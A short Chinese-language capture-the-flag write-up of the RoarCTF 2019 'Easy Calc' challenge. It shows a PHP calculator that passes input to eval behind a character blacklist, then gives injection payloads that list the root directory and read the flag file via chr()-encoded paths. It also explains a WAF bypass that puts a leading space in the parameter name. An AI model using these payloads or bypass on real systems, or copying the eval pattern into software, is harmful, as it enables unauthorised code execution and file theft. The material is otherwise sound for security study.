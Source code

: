 ### [RoarCTF 2019]Easy Calc

---

界面是一个行输入框，看一下代码

```html
<!--I've set up WAF to ensure security.-->
<script>
    $('#calc').submit(function(){
        $.ajax({
            url:"calc.php?num="+encodeURIComponent($("#content").val()),
            type:'GET',
            success:function(data){
                $("#result").html(`<div class="alert alert-success">
            <strong>答案:</strong>${data}
            </div>`);
            },
```

访问calc.php

```php
<?php
error_reporting(0);
if(!isset($_GET['num'])){
    show_source(__FILE__);
}else{
        $str = $_GET['num'];
        $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]','\$','\\','\^'];
        foreach ($blacklist as $blackitem) {
                if (preg_match('/' . $blackitem . '/m', $str)) {
                        die("what are you want to do?");
                }
        }
        eval('echo '.$str.';');
}
?>
```

Payload:（存在空格）

```php
? num=1;phpinfo();
? num=1;var_dump(scandir(char(47)));
? num=1;var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)));
```



#### 细节处理：

如果我们正常传入想要正常传入绕过的时候发现，num只接受数学符号，

> PHP在解析param时候会先把空格去掉，加个空格即可绕过这个waf。之后只要绕过网站源码的过滤即可
>
> 现在的变量叫就是` num`，而不是`num`。
>
> 但php在解析的时候，会先把空格给去掉，代码还正常